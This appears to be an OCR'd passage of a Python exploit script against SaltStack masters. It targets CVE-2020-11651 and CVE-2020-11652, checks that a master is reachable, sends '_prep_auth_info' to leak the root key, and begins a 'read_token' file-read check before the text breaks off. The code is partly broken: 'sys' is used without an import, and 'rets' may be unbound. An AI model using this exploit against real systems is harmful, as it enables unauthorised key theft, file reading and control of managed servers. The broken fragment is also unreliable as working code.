 ```python
import time

import salt
import salt.version
import salt.transport.client
import salt.exceptions

def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

# --- check funcs ----

def check_connection(master_ip, master_port, channel):
  print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
  sys.stdout.flush()

  # connection check
  try:
    channel.send({'cmd':'ping'}, timeout=2)
  except salt.exceptions.SaltReqTimeoutError:
    print("OFFLINE")
    sys.exit(1)
  else:
    print("ONLINE")

def check_CVE_2020_11651(channel):
  print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
  sys.stdout.flush()

  try:
    rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
  except:
    print('ERROR')
    return None
  else:
    pass
  finally:
    if rets:
      print('YES')
      root_key = rets[2]['root']
      return root_key

  print('NO')
  return None

def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
```
